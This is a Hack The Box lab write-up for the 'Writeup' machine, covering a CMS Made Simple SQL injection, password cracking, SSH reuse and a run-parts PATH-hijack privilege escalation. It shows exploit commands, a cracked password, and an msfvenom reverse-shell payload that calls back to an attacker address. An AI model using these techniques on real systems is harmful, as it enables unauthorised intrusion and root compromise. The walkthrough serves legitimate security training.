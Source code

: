 ```yaml
---
layout: single
title: Writeup - Hack The Box
excerpt: "Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr."
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/writeup_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - sqli
  - cms
---
```


![](/assets/images/htb-writeup-writeup/writeup_logo.png)

Writeup starts off easy with an unauthenticated vulnerability in CMS Made Simple that I exploit to dump the database credentials. After cracking the user hash, I can log in to the machine because the user re-used the same password for SSH. The priv esc is pretty nice: I have write access to `/usr/local` and I can write a binary payload in there that gets executed by run-parts when I SSH in because it's called without the full path. Another nice box by jkr.

## Summary

- Unauthenticated SQL injection in CMS Made Simple gives us the password hash which we can crack
- The CMS user / password can be used to SSH in to the server (password re-use)
- The `/usr/local/bin` directory is writable by low-priv user and we can hijack `run-parts` which is run by root when SSHing in (path abuse)

## Tools/Blogs used

- CMS Made Simple < 2.2.10 - SQL Injection (exploits/php/webapps/46635.py)

### Portscan

```
# nmap -p- 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-08 22:30 EDT
Nmap scan report for writeup.htb (10.10.10.138)
Host is up (0.018s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.16 seconds
```

### Website enumeration

The website contains information about fail2ban or a similar kind of script running to prevent 40x errors. This means that if we try to dirbust the site we'll probably get banned.

![](/assets/images/htb-writeup-writeup/1.png)

So I checked `robots.txt` and found the following:

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

Checking out `http://10.10.10.138/writeup/` I see it's some kind of barebone webpage.

![](/assets/images/htb-writeup-writeup/2.png)

The links just display different writeups for previous HTB boxes. I couldn't trigger any LFI, RFI or SQL injection from `/writeup/index.php?page=`

There's a hint at the bottom of the page that it's *NOT* made with vim.

![](/assets/images/htb-writeup-writeup/3.png)

Checking out the source code, I can see it's made with CMS Made Simple.

![](/assets/images/htb-writeup-writeup/4.png)

### SQL injection in CMS

Checking out searchsploit, I see a whole bunch of exploits for that CMS.

![](/assets/images/htb-writeup-writeup/5.png)

The one I highlighted above is an Unauthenticated SQL Injection that allows an attacker to dump the username and password hash from the database. To exploit it, we just need to pass the URI of the CMS and the wordlist we'll use to crack the password hash:

`python exploit.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt`

![](/assets/images/htb-writeup-writeup/6.png)

We just found the password for user `jkr`: `raykayjay9`

The CMS administration webpage at `http://10.10.10.138/writeup/admin` is protected by an additional HTTP basic web authentication. This is not part of the standard CMS deployment so it was probably added by the box creator. I'm not able to authenticate using the credentials I found in the database and if I try to bruteforce it I get locked out by fail2ban.

However the credentials do work with SSH and I'm able to get a shell and the first flag:

```
# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493...
```

### Privesc

My user is part of the following groups: `uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)`

I ran through the standard Linux enumeration, checking permissions on files and directories, and noticed that I have write access to folders inside `/usr/local`:

```
jkr@writeup:~$ ls -l /usr/local
total 56
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x 4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx 1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x 7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x 2 root staff  4096 Apr 19 04:11 src
```

However, I can't see the contents of `/usr/local/bin` and `/usr/local/sbin`. This is not a standard Linux distro configuration so the box creator probably changed the permissions on purpose so HTB players can't piggy-back on other players binaries.

I copied `pspy` to the box and found a cronjob running every minute:

![](/assets/images/htb-writeup-writeup/7.png)

I don't have access to the content of the script but it's safe to assume that it deletes files or folders somewhere on the system. I created a test file inside `/usr/local/bin` to see if the script would delete it. After a minute, I saw that the file was removed:

```
jkr@writeup:/usr/local/bin$ echo test > test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
test
jkr@writeup:/usr/local/bin$ cat test
cat: test: No such file or directory
```

Because we can write files into `/usr/local/bin` and `/usr/local/sbin`, we can potentially get RCE since the default path for users is the following:

```
jkr@writeup:/usr/local/bin$ cat /etc/profile
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

`/usr/local/bin` and `/usr/local/sbin` are preferred over the other paths so it's clear what we need to do here:

 - Find the filename of something that is executed by root (that filename must be executed without the full path)
 - Find the trigger for executing that command as root

I thought I could use `grep` or `iptables` but that didn't work. I think it's because the programs are executed by fail2ban which is started with a modified path as per `/etc/init.d/fail2ban`:

```
PATH=/usr/sbin:/usr/bin:/sbin:/bin
```

I also noticed that the `run-parts` program is executed whenever I SSH in:

![](/assets/images/htb-writeup-writeup/8.png)

> run-parts runs all the executable files named within constraints described below, found in directory  directory. Other files and directories are silently ignored.

I can't make run-parts run arbitrary binaries since I can't write `/etc/update-motd.d/` but because the program is run without the full path I can write my own `run-parts` binary to `/usr/local/bin` or `/usr/local/sbin` and it will be executed instead of the real one because the directory is located in front in the PATH variable definition.

For the malicious binary, I use a standard linux reverse shell payload generated with Metasploit:
```
# msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=10.10.14.7 LPORT=4444
chmod +x ./shell
```

I just need to upload the file to `/usr/local/bin/run-parts` and SSH in to trigger a callback and get root privileges.

![](/assets/images/htb-writeup-writeup/9.png)

